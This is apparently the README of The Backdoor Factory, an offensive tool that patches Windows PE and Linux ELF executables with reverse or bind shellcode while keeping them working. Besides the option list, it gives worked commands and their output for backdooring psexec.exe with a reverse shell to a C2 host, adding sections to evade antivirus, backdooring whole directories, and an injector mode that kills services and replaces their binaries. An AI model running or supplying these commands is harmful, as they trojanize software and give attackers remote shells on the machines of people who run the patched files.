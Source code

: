 ##The Backdoor Factory
For security professionals and researchers only.

Many thanks to Ryan O'Neill --ryan 'at' codeslum <d ot> org--
Without him, I would still be trying to do stupid things 
with the elf format.
Also thanks to Silvio Cesare with his 1998 paper 
(http://vxheaven.org/lib/vsc01.html) which these ELF patching
techniques are based on.

I learned a ton about the ELF format.  The first frustrating thing I noticed were the lack of code caves in debian builds.  However, you don't really need them. See the link above, circa 1998.  The look and feel to the user will be no different for ELF binaries, just point the tool at them as you have for PE bins.

From DerbyCon: 
    
    Video: http://www.youtube.com/watch?v=jXLb2RNX5xs

    Injection Module Demo: http://www.youtube.com/watch?v=04aJAex2o3U

    Slides: http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Injects shellcode into win32/64 PE and linux32/64 ELF Files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all binaries.  It is advisable that you test target binaries before deploying them to clients or using them in exercises.

Recently tested on all 32/64bit Sysinternal tools and Chrome browser.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit
  
  -f FILE, --file=FILE  File to backdoor
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -H HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -P PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -J, --cave_jumping    Select this options if you want to use code cave
                        jumping to further hide your shellcode in the binary.
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
                        User supplied shellcode, make sure that it matches the
                        architecture that you are targeting.
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all the
                        code caves of a specific size.The -l flag can be use
                        with this setting.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -i, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery
  
  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*
  
  -O DISK_OFFSET, --disk_offset=DISK_OFFSET
                        Starting point on disk offset, in bytes. Some authors
                        want to obfuscate their on disk offset to avoid
                        reverse engineering, if you find one of those files
                        use this flag, after you find the offset.
  
  -S, --support_check   To determine if the file is supported by BDF prior to
                        backdooring the file. For use by itself or with
                        verbose. This check happens automatically if the
                        backdooring is attempted.
  
  -q, --no_banner       Kills the banner.
  
  -v, --verbose         For debug information output.


---

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

---------------------------------------------

Sample Usage:
---

###Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

[*] In the backdoor module

[*] Checking if binary is supported

[*] Gathering file info

[*] Reading win32 entry instructions

[*] Looking for and setting selected shellcode

[*] Creating win32 resume execution stub

[*] Looking for caves that will fit the minimum shellcode length of 402

[*] All caves lengths:  (402,)

-############################################################

The following caves can be used to inject code and possibly

continue execution.

**Don't like what you see? Use jump, single, or append.**

-############################################################

[*] Cave 1 length as int: 402

[*] Available caves:

1. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9. Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

**************************************************

[!] Enter your selection: 5

Using selection: 5

[*] Changing Section Flags

[*] Patching initial entry instructions

[*] Creating win32 resume execution stub

[*] psexec.exe backdooring complete

File psexec.exe is in the 'backdoored' directory

---

###Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
###Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
###Hunt and backdoor: Injector | Windows Only
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
